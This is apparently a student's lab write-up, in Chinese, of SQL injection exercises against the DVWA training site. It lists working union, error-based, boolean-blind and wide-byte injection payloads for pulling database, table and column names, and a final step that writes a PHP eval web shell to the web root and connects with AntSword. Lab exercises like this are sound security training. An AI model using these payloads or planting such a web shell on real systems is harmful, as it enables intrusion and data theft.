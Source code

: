 ## 1.分别在前端和后端使用 Union 注入实现“dvwa 数据库 -user 表 - 字段 -first_name 数据”的注入过程，写清楚注入步骤。

- 前端输入1'  order by 1 #和1'  order by 2 #判断查询的列数
- 接着输入1' union all select database(),version() #得到数据库名
- 输入1' union all select 1,table_name from information_schema.tables where table_schema = database()#得到表名
- 输入1' union all select 1,column_name from information_schema.columns where table_schema = database() and table_name = 'users得到users表的字段名
- 输入1' union all select first_name from users#得到字段first_name的数据

## 2.分别在前端和后端使用报错注入实现“dvwa 数据库 -user 表 - 字段”的注入过程，写清楚注入步骤，并回答下列关于报错注入的问题：

- 输入1' and  extractvalue(1,concat(0x7e,database()))#得到数据库名
- 输入1' and  extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database() )))#得到表的个数
- 输入1' and  extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1)))#得到user表名
- 输入1' and  extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema = database() and table_name = 'users' )))#得到user表的字段数量
- 输入1' and  extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = database() and table_name = 'users' limit 0,1)))#  并通过修改limit参数得到user表的每个字段





- 在 extractvalue 函数中，为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？

  参数一是文件名称，是字符串形式，可以允许有~，参数二是路径，一般不包含~，所以会有语法错误

- 报错注入中，为什么要突破单引号的限制，如何突破？

  网站和防护设备会对单引号进行过滤，拦截单引号；使用十六进制来突破单引号的限制

- 在报错注入过程中，为什么要进行报错，是哪种类型的报错？

  extractvalue()函数报错会返回解析的SQL语句，属于函数语法报错

## 3.任选布尔盲注或者时间盲注在前端和后端实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。

选择布尔盲注

- 输入1' and length(database()) >5#  通过二分法判断数据库名的长度
- 输入1' and ascii(substr(database(),1,1))>100#  通过二分法得到数据库名的每个字符
- 输入1' and (select count(table_name) from information_schema.tables where table_schema=database())>100#  通过二分法得到数据库的表的数量
- 输入1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)>1# 通过二分法得到数据库的表名字符长度，通过修改limit参数得到数据库的每个表名长度
- 输入1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))>100# 通过二分法以及修改limit参数得到数据库的每个表名
- 输入1' and (select count(column_name) from information_schema.columns where table_schema = database() and table_name = 'users' )>100# 通过二分法得到数据库的users表的字段数量
- 输入1' and (select length(column_name) from information_schema.columns where table_schema = database() and table_name = 'users' limit 0,1 )>100# 通过二分法以及修改limit参数得到数据库的users表的每个字段的字符长度
- 输入1' and ascii(substr((select column_name from information_schema.columns where table_schema = database() and table_name = 'users' limit 0,1 ),1,1))>100#通过二分法以及修改limit参数得到数据库的users表的每个字段，其他表的字段获取方法和users表一样

## 4.利用宽字节注入实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。

- 通过kobe%df%27 union all select database(),version()#得到数据库名
- 通过kobe%df%27 union all select 1,table_name from information_schema.tables where table_schema = database()#得到数据库的每个表名
- 通过kobe%df%27 union all select 1,column_name from information_schema.columns where table_schema = database() and table_name = (select table_name from information_schema.tables where table_schema = database() limit 3,1)  #以及修改limit参数得到每个表的所有字段

## 5.利用 SQL 注入实现 DVWA 站点的 Getshell，写清楚攻击步骤。

- 输入1' union select  1,"<?php eval($_POST['a']);"  into outfile '/var/www/html/test0.php
- 访问http://10.0.0.131:8080/test0.php成功，在站点目录生成test0.php文件
- 用蚁剑输入上一步链接，并输入密码a，即可成功Getshell







